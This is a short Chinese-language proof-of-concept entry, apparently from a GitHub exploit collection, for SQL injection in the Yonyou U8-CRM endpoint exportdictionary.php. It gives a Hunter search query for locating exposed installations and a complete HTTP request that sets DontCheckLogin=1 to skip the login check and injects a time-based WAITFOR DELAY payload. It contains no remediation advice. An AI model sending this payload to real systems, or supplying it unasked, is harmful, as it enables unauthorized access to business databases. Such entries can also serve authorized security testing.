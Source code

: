 # 用友U8-CRM接口exportdictionary.php存在SQL注入漏洞

用友U8-CRM接口 /devtools/tools/exportdictionary.ph p存在SQL注入漏洞

## hunter

```yaml
app.name="用友 CRM"
```

## poc

```java
GET /devtools/tools/exportdictionary.php?DontCheckLogin=1&value=1%27;WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-; TL_EXPANDED=REL_STAGE2012
```

